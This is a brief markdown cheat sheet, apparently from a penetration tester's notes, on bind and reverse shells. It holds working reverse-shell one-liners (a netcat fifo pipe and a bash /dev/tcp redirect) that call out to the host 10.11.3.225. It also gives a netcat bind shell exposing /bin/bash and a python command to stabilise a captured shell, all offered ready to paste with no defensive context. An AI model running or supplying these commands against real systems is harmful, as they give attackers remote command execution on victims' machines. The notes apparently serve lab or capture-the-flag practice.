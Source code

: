# Bind / Reverse Shell

## Tips : 
https://www.revshells.com/  
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php  

### Reverse non interactive shell basic payload
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.3.225 1234 >/tmp/f
bash -i >& /dev/tcp/10.11.3.225/1234 0>&1
```


### BIND SHELL :
***Remote***
```bash
nc -nlvp 51337 -e /bin/bash
```
***Local***
```bash
nc IP 51337
```


### STABILISER UN REVERSE SHELL
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'; 
export TERM=xterm ; export SHELL=bash
```